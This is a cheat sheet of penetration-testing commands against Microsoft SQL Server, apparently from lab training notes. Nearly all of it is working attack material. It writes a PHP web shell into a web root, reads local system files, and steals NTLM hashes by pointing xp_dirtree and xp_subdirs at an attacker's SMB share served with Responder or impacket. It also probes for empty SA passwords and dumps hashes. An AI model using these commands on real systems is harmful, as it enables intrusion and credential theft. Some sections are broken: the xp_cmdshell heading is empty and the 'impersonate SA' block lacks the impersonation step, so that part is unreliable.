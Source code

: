 1. Banner grabbing: `nmap -Pn -sV -sC -p1433 10.10.10.125`
2. Nmap: `sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.201.248`
2. MSSQL Ping in Metasploit: `msf6 auxiliary(scanner/mssql/mssql_ping) > set rhosts 10.129.201.248`
3. Connecting with Mssqlclient.py
    1. connect `python3 mssqlclient.py Administrator@10.129.201.248 -windows-auth`
    2. Interact with: `select name from sys.databases`
4. Sqlcmd:
    1. Connecting to the SQL Server: `sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30`
    2. `SELECT name FROM master.dbo.sysdatabases`
    3. `Use table-name`
    4. `SELECT table_name FROM htbusers.INFORMATION_SCHEMA.TABLES`
    5. `SELECT * FROM users`
5. If we are targetting MSSQL from Linux, we can use sqsh as an alternative to sqlcmd: `sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h`
#### **XP_CMDSHELL**

#### **MSSQL - Enable Ole Automation Procedures**
```bash
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```
#### **MSSQL - Create a File**
```bash
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```
#### **Read Local Files in MSSQL**
```bash
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```
#### **XP_DIRTREE Hash Stealing**
`EXEC master..xp_dirtree '\\10.10.110.17\share\'`
#### **XP_SUBDIRS Hash Stealing**
`EXEC master..xp_subdirs '\\10.10.110.17\share\'`
#### **XP_SUBDIRS Hash Stealing with Responder**
`sudo responder -I tun0`
#### **XP_SUBDIRS Hash Stealing with impacket**
`sudo impacket-smbserver share ./ -smb2support`
#### **Impersonate Existing Users with MSSQL**
```bash
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```
#### **Verifying our Current User and Role**
```bash
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```
#### **Impersonating the SA User**
```bash
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```
#### **Identify linked Servers in MSSQL**
```bash
1> SELECT srvname, isremote FROM sysservers
2> GO
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO
```
##
